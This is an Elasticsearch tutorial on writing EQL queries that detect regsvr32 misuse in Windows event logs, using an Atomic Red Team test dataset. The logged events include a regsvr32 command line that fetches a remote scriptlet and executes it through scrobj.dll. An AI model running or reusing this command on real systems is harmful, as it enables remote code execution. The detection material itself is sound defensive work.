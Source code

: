 [role="xpack"]
[testenv="basic"]
[[eql-ex-threat-detection]]
== Example: Detect threats with EQL

experimental::[]

This example tutorial shows you how you can use EQL to detect security threats
and other suspicious behavior.

In the scenario, you're tasked with detecting
https://attack.mitre.org/techniques/T1117/[regsvr32 misuse] in Windows event
logs ingested using {winlogbeat-ref}/index.html[Winlogbeat]. Regsvr32 misuse is
a known adversary technique documented in the https://attack.mitre.org[MITRE
ATT&CK®] knowledge base.

[discrete]
[[eql-ex-threat-detection-setup]]
=== Setup

This tutorial uses a test dataset for regsvr32 misuse from
https://github.com/redcanaryco/atomic-red-team[Atomic Red Team]. The dataset has
been normalized and mapped to the {ecs-ref}[Elastic Common Schema (ECS)]. The
dataset includes events that imitate behaviors related to regsvr32 misuse, as
documented by MITRE ATT&CK®.

To get started, download and index the dataset:

. Download the https://raw.githubusercontent.com/elastic/elasticsearch/{branch}/docs/src/test/resources/normalized-T1117-AtomicRed-regsvr32.json[`normalized-T1117-AtomicRed-regsvr32.json`] dataset.

. Index the data into the `sec_logs` index with the following
<<docs-bulk,bulk API>> request:
+
[source,sh]
----
curl -H "Content-Type: application/json" -XPOST "localhost:9200/sec_logs/_bulk?pretty&refresh" --data-binary "@normalized-T1117-AtomicRed-regsvr32.json"
----
// NOTCONSOLE

. Use the <<cat-indices,cat indices API>> to verify the dataset was indexed
successfully.
+
[source,console]
----
GET /_cat/indices/sec_logs?v&h=health,status,index,docs.count
----
// TEST[setup:sec_logs]

The API returns the following response. The `docs.count` value should show `150`
documents were indexed.

[source,txt]
----
health status index     docs.count
yellow open   sec_logs         150
----
// TESTRESPONSE[non_json]

[discrete]
[[eql-ex-get-a-count-of-regsvr32-events]]
=== Get a count of `regsvr32.exe` events

Since you're looking for `regsvr32` misuse, start by getting a count of events
using `regsvr32.exe`.

The following <<eql-search-api,EQL search API>> request uses an EQL query to
retrieve a count of events with a `process.name` of `regsvr32.exe`. The query
starts with the <<eql-syntax-match-any-event-category,`any where` keywords>>,
meaning the query can match events of any <<eql-required-fields,event
category>>.

[source,console]
----
GET /sec_logs/_eql/search?filter_path=-hits.events  <1>
{
  "query": """
    any where process.name == "regsvr32.exe"        <2>
  """,
  "size": 150                                       <3>
}
----
// TEST[setup:sec_logs]

<1> Uses the `?filter_path=-hits.events` query parameter to exclude the
`hits.events` property from the response. The `hits.events` property contains
the document source for any matching events. This request is intended to
retrieve a count of events only.
<2> Uses an EQL query to match events with a `process.name` of `regsvr32.exe`.
<3> Returns up to 150 events or sequences matching the EQL query.

The request returns the following response, indicating that 143 events match the
query.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 60,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 143,
      "relation": "eq"
    }
  }
}
----
// TESTRESPONSE[s/"took": 60/"took": $body.took/]

[discrete]
[[eql-ex-check-for-command-line-artifacts]]
=== Check for command line artifacts

Your previous query matched 143 events. Many of these events are likely to be
false positives.

To narrow down the results, check if the command line was used during any of
these events. Append `and process.command_line > 0` to the previous EQL query.
This limits matching results to events that contain a `process.command_line`
value.

You'll also need to remove the `filter_path=-hits.events` query parameter. This
lets you retrieve the document source for any matching events.

[source,console]
----
GET /sec_logs/_eql/search
{
  "query": """
    any where process.name == "regsvr32.exe" and process.command_line > 0
  """,
  "size": 150
}
----
// TEST[setup:sec_logs]

The query matches one event. Based on the event's `process.command_line` value,
`regsvr32.exe` was used to register a script as `scrobj.dll`. This fits known
regsvr32 misuse behavior.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 21,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "events": [
      {
        "_index": "sec_logs",
        "_id": "gl5MJXMBMk1dGnErnBW8",
        "_score": null,
        "_source": {
          "process": {
            "parent": {
              "name": "cmd.exe",
              "entity_id": "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
              "executable": "C:\\Windows\\System32\\cmd.exe"
            },
            "name": "regsvr32.exe",
            "pid": 2012,
            "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
            "command_line": "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
            "executable": "C:\\Windows\\System32\\regsvr32.exe",
            "ppid": 2652
          },
          "logon_id": 217055,
          "@timestamp": 131883573237130000,
          "event": {
            "category": "process",
            "type": "creation"
          },
          "user": {
            "full_name": "bob",
            "domain": "ART-DESKTOP",
            "id": "ART-DESKTOP\\bob"
          }
        }
      }
    ]
  }
}
----
// TESTRESPONSE[s/"took": 21/"took": $body.took/]
// TESTRESPONSE[s/"_id": "gl5MJXMBMk1dGnErnBW8"/"_id": $body.hits.events.0._id/]

[discrete]
[[eql-ex-check-for-malicious-script-loads]]
=== Check for malicious script loads

You now know that `regsvr32.exe` was used to register
a potentially malicious script as `scrob.dll`. Next, find any processes that
later load the `scrob.dll` file.

Modify the previous EQL query as follows:

* Change the `any` keyword to `file`. This means the query only matches
events with an `event.category` of `file`.
* Add the `file.name == "scrobj.dll` condition to check for loads of
the `scrobj.dll` file.

[source,console]
----
GET /sec_logs/_eql/search
{
  "query": """
    file where process.name == "regsvr32.exe" and file.name == "scrobj.dll"
  """,
  "size": 150
}
----
// TEST[setup:sec_logs]

The query matches an event, confirming that `scrobj.dll` was later loaded by
`regsvr32.exe`.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 5,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "events": [
      {
        "_index": "sec_logs",
        "_id": "ol5MJXMBMk1dGnErnBW8",
        "_score": null,
        "_source": {
          "process": {
            "name": "regsvr32.exe",
            "pid": 2012,
            "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
            "executable": "C:\\Windows\\System32\\regsvr32.exe"
          },
          "file": {
            "path": "C:\\Windows\\System32\\scrobj.dll",
            "name": "scrobj.dll"
          },
          "@timestamp": 131883573237450016,
          "event": {
            "category": "file"
          }
        }
      }
    ]
  }
}
----
// TESTRESPONSE[s/"took": 5/"took": $body.took/]
// TESTRESPONSE[s/"_id": "ol5MJXMBMk1dGnErnBW8"/"_id": $body.hits.events.0._id/]

[discrete]
[[eql-ex-detemine-likelihood-of-sucess]]
=== Determine likelihood of success

In many cases, malicious scripts are used to download other remote files. If
this occurred, the attack progressed and might have succeeded.

Use an <<eql-sequences,EQL sequence query>> to check for the following series of
events, in order:

. A `regsvr32.exe` process, which could have been used to register malicious
scripts as `scrobj.dll`
. A load of the `scrobj.dll` file
. Any network event, which could indicate the download of a remote file

To match, each event in the sequence must share the same `process.pid` (process
ID) field value.

[source,console]
----
GET /sec_logs/_eql/search
{
  "query": """
    sequence by process.pid
      [process where process.name == 'regsvr32.exe']
      [file where file.name == 'scrobj.dll']
      [network where true]
  """,
  "size": 150
}
----
// TEST[setup:sec_logs]

The query matches a sequence, indicating the attack likely succeeded.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 25,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "sequences": [
      {
        "join_keys": [
          "2012"
        ],
        "events": [
          {
            "_index": "sec_logs",
            "_id": "gl5MJXMBMk1dGnErnBW8",
            "_version": 1,
            "_seq_no": 1,
            "_primary_term": 1,
            "_score": null,
            "_source": {
              "process": {
                "parent": {
                  "name": "cmd.exe",
                  "entity_id": "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
                  "executable": "C:\\Windows\\System32\\cmd.exe"
                },
                "name": "regsvr32.exe",
                "pid": 2012,
                "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "command_line": "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
                "executable": "C:\\Windows\\System32\\regsvr32.exe",
                "ppid": 2652
              },
              "logon_id": 217055,
              "@timestamp": 131883573237130000,
              "event": {
                "category": "process",
                "type": "creation"
              },
              "user": {
                "full_name": "bob",
                "domain": "ART-DESKTOP",
                "id": "ART-DESKTOP\\bob"
              }
            }
          },
          {
            "_index": "sec_logs",
            "_id": "ol5MJXMBMk1dGnErnBW8",
            "_version": 1,
            "_seq_no": 7,
            "_primary_term": 1,
            "_score": null,
            "_source": {
              "process": {
                "name": "regsvr32.exe",
                "pid": 2012,
                "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "executable": "C:\\Windows\\System32\\regsvr32.exe"
              },
              "file": {
                "path": "C:\\Windows\\System32\\scrobj.dll",
                "name": "scrobj.dll"
              },
              "@timestamp": 131883573237450016,
              "event": {
                "category": "file"
              }
            }
          },
          {
            "_index": "sec_logs",
            "_id": "EF5MJXMBMk1dGnErnBa9",
            "_version": 1,
            "_seq_no": 29,
            "_primary_term": 1,
            "_score": null,
            "_source": {
              "process": {
                "name": "regsvr32.exe",
                "pid": 2012,
                "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "executable": "C:\\Windows\\System32\\regsvr32.exe"
              },
              "destination": {
                "address": "151.101.48.133",
                "port": "443"
              },
              "source": {
                "address": "192.168.162.134",
                "port": "50505"
              },
              "network": {
                "direction": "outbound",
                "protocol": "tcp"
              },
              "@timestamp": 131883573238680000,
              "event": {
                "category": "network"
              },
              "user": {
                "full_name": "bob",
                "domain": "ART-DESKTOP",
                "id": "ART-DESKTOP\\bob"
              }
            }
          }
        ]
      }
    ]
  }
}
----
// TESTRESPONSE[s/"took": 25/"took": $body.took/]
// TESTRESPONSE[s/"_id": "gl5MJXMBMk1dGnErnBW8"/"_id": $body.hits.sequences.0.events.0._id/]
// TESTRESPONSE[s/"_seq_no": 1/"_seq_no": $body.hits.sequences.0.events.0._seq_no/]
// TESTRESPONSE[s/"_id": "ol5MJXMBMk1dGnErnBW8"/"_id": $body.hits.sequences.0.events.1._id/]
// TESTRESPONSE[s/"_seq_no": 7/"_seq_no": $body.hits.sequences.0.events.1._seq_no/]
// TESTRESPONSE[s/"_id": "EF5MJXMBMk1dGnErnBa9"/"_id": $body.hits.sequences.0.events.2._id/]
// TESTRESPONSE[s/"_seq_no": 29/"_seq_no": $body.hits.sequences.0.events.2._seq_no/]
